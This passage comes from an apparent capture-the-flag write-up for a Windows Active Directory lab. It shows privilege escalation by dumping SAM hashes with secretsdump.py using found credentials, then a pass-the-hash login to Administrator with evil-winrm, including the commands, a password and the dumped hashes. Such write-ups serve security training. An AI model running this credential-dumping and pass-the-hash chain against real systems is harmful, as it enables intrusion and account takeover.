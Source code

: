 There's a few ways to priv esc here

`whoami /priv` shows that a-whitehat has every privilege possible so we COULD use juicy potato.

Because we have creds, `secretsdump.py` will also dump hashes for us.

` python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.127.164`

This will give us the NTLM hash for `Administrator`

```bash
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can either crack the hash or use a Pass The Hash attack.

We can pass the hash with `evil-winrm`
`evil-winrm -i 10.10.127.164 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"`

This gives us root. We can grab the flag at `c:\users\administrator\desktop`



